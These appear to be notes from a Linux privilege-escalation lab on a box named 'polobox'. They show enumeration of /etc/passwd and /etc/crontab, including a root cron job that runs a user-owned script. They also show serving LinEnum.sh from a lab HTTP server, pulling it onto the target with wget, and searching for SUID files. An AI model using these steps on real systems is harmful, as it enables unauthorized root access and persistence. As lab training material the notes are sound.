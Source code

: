 [[Writeup]]
![[Pasted image 20250512174744.png]]

 Reset passwords
 Bypass access controls to compromise protected data
 Edit software configurations
 Enable persistence, so you can access the machine again later.
 Change privilege of users
 Get that cheeky root flag ;) 
## Enumeration

hostname of the machine
```
user3@polobox:~$ hostname
polobox
```

```
user3@polobox:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
lightdm:x:108:117:Light Display Manager:/var/lib/lightdm:/bin/false
ntp:x:109:119::/home/ntp:/bin/false
avahi:x:110:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
colord:x:111:123:colord colour management daemon,,,:/var/lib/colord:/bin/false
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false
hplip:x:113:7:HPLIP system user,,,:/var/run/hplip:/bin/false
nm-openconnect:x:114:124:NetworkManager OpenConnect plugin,,,:/var/lib/NetworkManager:/bin/false
nm-openvpn:x:115:125:NetworkManager OpenVPN,,,:/var/lib/openvpn/chroot:/bin/false
pulse:x:116:126:PulseAudio daemon,,,:/var/run/pulse:/bin/false
rtkit:x:117:128:RealtimeKit,,,:/proc:/bin/false
saned:x:118:129::/var/lib/saned:/bin/false
usbmux:x:119:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
geoclue:x:103:105::/var/lib/geoclue:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
vboxadd:x:999:1::/var/run/vboxadd:/bin/false
user1:x:1000:1000:user1,,,:/home/user1:/bin/bash
user2:x:1001:1001:user2,,,:/home/user2:/bin/bash
user3:x:1002:1002:user3,,,:/home/user3:/bin/bash
user4:x:1003:1003:user4,,,:/home/user4:/bin/bash
statd:x:120:65534::/var/lib/nfs:/usr/sbin/nologin
user5:x:1004:1004:user5,,,:/home/user5:/bin/bash
user6:x:1005:1005:user6,,,:/home/user6:/bin/bash
mysql:x:121:131:MySQL Server,,,:/var/mysql:/bin/bash
user7:x:1006:0:user7,,,:/home/user7:/bin/bash
user8:x:1007:1007:user8,,,:/home/user8:/bin/bash
sshd:x:122:65534::/run/sshd:/usr/sbin/nologin
```

```
user3@polobox:~$ cat /etc/shells
# /etc/shells: valid login shells
/bin/sh
/bin/dash
/bin/bash
/bin/rbash

```

```
user3@polobox:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
*/5  *    * * * root    /home/user4/Desktop/autoscript.sh
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#

```

## How to put the file into the ssh 

setup a http server
`python3 -m http.server 8000`
example of putting it to ssh
```
user3@polobox:~$ wget 10.23.62.59:8000/LinEnum.sh
--2025-05-12 06:01:13--  http://10.23.62.59:8000/LinEnum.sh
Connecting to 10.23.62.59:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 46631 (46K) [text/x-sh]
Saving to: ‘LinEnum.sh’

LinEnum.sh                                      100%[====================================================================================================>]  45.54K  88.8KB/s    in 0.5s    

2025-05-12 06:01:14 (88.8 KB/s) - ‘LinEnum.sh’ saved [46631/46631]
```


# abuse the SUID/GUID files.

We already know that there is SUID capable files on the system, thanks to our LinEnum scan. However, if we want to do this manually we can use the command: "find / -perm -u=s -type f 2>/dev/null" to search the file system for SUID/GUID files. Let's break down this command.

find - Initiates the "find" command

/ - Searches the whole file system

-perm - searches for files with specific permissions

-u=s - Any of the permission bits mode are set for the file. Symbolic modes are accepted in this form

-type f - Only search for files

2>/dev/null - Suppresses errors

[as divided by colon (:)]

    Username: It is used when user logs in. It should be between 1 and 32 characters in length.
    Password: An x character indicates that encrypted password is stored in /etc/shadow file. Please note that you need to use the passwd command to compute the hash of a password typed at the CLI or to store/update the hash of the password in /etc/shadow file, in this case, the password hash is stored as an "x".
    User ID (UID): Each user must be assigned a user ID (UID). UID 0 (zero) is reserved for root and UIDs 1-99 are reserved for other predefined accounts. Further UID 100-999 are reserved by system for administrative and system accounts/groups.
    Group ID (GID): The primary group ID (stored in /etc/group file)
    User ID Info: The comment field. It allow you to add extra information about the users such as user’s full name, phone number etc. This field use by finger command.
    Home directory: The absolute path to the directory the user will be in when they log in. If this directory does not exists then users directory becomes /
    Command/shell: The absolute path of a command or shell (/bin/bash). Typically, this is a shell. Please note that it does not have to be a shell.

